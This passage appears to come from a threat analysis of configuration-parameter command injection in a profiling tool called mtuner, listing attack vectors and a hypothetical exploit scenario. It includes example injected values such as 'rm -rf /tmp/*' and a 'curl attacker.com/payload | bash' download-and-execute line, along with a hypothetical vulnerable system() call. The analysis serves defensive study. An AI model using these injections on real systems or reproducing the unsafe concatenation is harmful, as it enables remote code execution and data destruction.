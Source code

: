 **2.1 Detailed Threat Description:**

The core of this threat lies in the potential for `mtuner` to process configuration parameters without adequate validation.  Configuration parameters are inputs that control the behavior of `mtuner`. If these inputs are not properly checked and sanitized, an attacker can craft malicious inputs that are interpreted by `mtuner` in unintended ways, leading to code execution.

This vulnerability is particularly critical because configuration parameters are often processed early in the application lifecycle, and they can influence fundamental aspects of `mtuner`'s operation.  If an attacker can inject malicious code through configuration, they can gain control before `mtuner` even starts profiling the target application.

**2.2 Attack Vectors:**

An attacker could potentially control `mtuner`'s configuration parameters through several vectors, depending on how `mtuner` is designed to accept configuration:

*   **Command-Line Arguments:** If `mtuner` accepts configuration parameters directly via command-line arguments, an attacker who can execute `mtuner` (or influence its execution, e.g., through a script or automated system) could inject malicious arguments.
    *   **Example:**  `mtuner --output-file "malicious.txt; rm -rf /tmp/*"` - If `mtuner` naively uses the `--output-file` parameter in a system command without validation, this could lead to command injection.
*   **Configuration Files:** If `mtuner` reads configuration from files (e.g., `.ini`, `.yaml`, `.json`, or custom formats), an attacker who can modify these files (e.g., through compromised accounts, file upload vulnerabilities in related systems, or if the configuration file is stored in a world-writable location - though less likely) could inject malicious configuration.
    *   **Example:** A YAML configuration file might contain a parameter like `log_path: "/tmp/logs"`.  A malicious user could change this to `log_path: "/tmp/logs; bash -c 'curl attacker.com/payload | bash'"` if the parsing logic is vulnerable to injection.
*   **Environment Variables:** If `mtuner` reads configuration from environment variables, an attacker who can control the environment in which `mtuner` runs (e.g., through compromised accounts, container escape, or vulnerabilities in orchestration systems) could inject malicious environment variables.
    *   **Example:**  If `mtuner` reads `MTUNER_LOG_DIR` environment variable and uses it in file path construction without validation, setting `MTUNER_LOG_DIR` to `"; touch /tmp/pwned"` could lead to command injection.

**2.3 Exploit Scenarios:**

Let's consider a few concrete exploit scenarios based on potential vulnerabilities in configuration handling:

*   **Scenario 1: Command Injection via Output File Path:**
    Assume `mtuner` has a configuration parameter, perhaps through command-line argument `--output-file`, that specifies where profiling results are saved. If `mtuner` uses this parameter directly in a system command (e.g., for file creation or manipulation) without proper sanitization, an attacker could inject shell commands.

    *   **Attack:**  The attacker provides `--output-file "results.txt; touch /tmp/pwned"` as a command-line argument.
    *   **Vulnerable Code (Hypothetical):**  `system("echo 'Profiling results' > " + config.output_file);`
    *   **Outcome:** Instead of just creating `results.txt`, the command `touch /tmp/pwned` would also be executed, demonstrating command injection.

